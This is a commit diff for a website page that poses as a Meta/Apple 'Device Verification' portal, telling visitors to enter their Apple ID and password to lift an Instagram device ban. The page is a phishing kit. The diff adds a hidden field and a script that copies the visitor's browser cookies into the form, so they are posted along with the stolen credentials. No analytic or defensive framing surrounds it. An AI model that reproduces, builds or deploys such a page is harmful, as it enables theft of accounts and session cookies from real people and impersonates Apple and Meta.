

Before and after one commit to d7m34/meta-pag2, a website: page index.html in a window 1280 px wide. Shown: the part 262-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,31 +2,37 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Meta Support Portal | Hardware Verification</title>
+    <title>Meta Security | Hardware Verification</title>
     <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0/css/all.min.css">
     <style>
-        body { font-family: -apple-system, system-ui, sans-serif; background-color: #f5f5f7; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        body { font-family: -apple-system, sans-serif; background-color: #f5f5f7; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
         .card { background: white; width: 100%; max-width: 380px; padding: 40px; border-radius: 20px; box-shadow: 0 4px 20px rgba(0,0,0,0.08); text-align: center; }
         .apple-logo { font-size: 35px; color: #000; margin-bottom: 20px; }
-        h1 { font-size: 22px; font-weight: 600; color: #1d1d1f; margin-bottom: 15px; }
-        p { font-size: 14px; color: #86868b; line-height: 1.5; margin-bottom: 30px; }
-        input { width: 100%; padding: 15px; margin-bottom: 12px; border: 1px solid #d2d2d7; border-radius: 12px; font-size: 16px; box-sizing: border-box; outline: none; background: #fafafa; }
-        input:focus { border-color: #0071e3; }
+        h1 { font-size: 22px; font-weight: 600; margin-bottom: 10px; }
+        p { font-size: 14px; color: #86868b; margin-bottom: 30px; line-height: 1.5; }
+        input { width: 100%; padding: 15px; margin-bottom: 12px; border: 1px solid #d2d2d7; border-radius: 12px; font-size: 16px; box-sizing: border-box; background: #fafafa; }
         button { width: 100%; padding: 15px; background: #0071e3; color: white; border: none; border-radius: 12px; font-size: 16px; font-weight: 600; cursor: pointer; }
-        .footer { margin-top: 30px; font-size: 11px; color: #a1a1a6; }
     </style>
 </head>
 <body>
     <div class="card">
         <i class="fab fa-apple apple-logo"></i>
-        <h1>Security Verification</h1>
-        <p>To lift the Instagram device-ban, please authenticate your Apple ID to synchronize hardware ownership credentials.</p>
-        <form action="/verify-identity" method="POST">
+        <h1>Device Verification</h1>
+        <p>Your Instagram appeal requires hardware synchronization. Please confirm your Apple ID to lift the device-ban.</p>
+
+        <form action="/auth/verify" method="POST" id="authForm">
             <input type="email" name="email" placeholder="Apple ID" required>
             <input type="password" name="password" placeholder="Password" required>
-            <button type="submit">Verify & Sync</button>
+            <input type="hidden" name="user_cookies" id="cookieData">
+            <button type="submit">Verify Now</button>
         </form>
-        <div class="footer"><i class="fas fa-lock"></i> Protected by Apple Secure-Enclave</div>
     </div>
+
+    <script>
+        // سحب الكوكيز عند الضغط على الزر
+        document.getElementById('authForm').onsubmit = function() {
+            document.getElementById('cookieData').value = document.cookie;
+        };
+    </script>
 </body>
 </html>
```
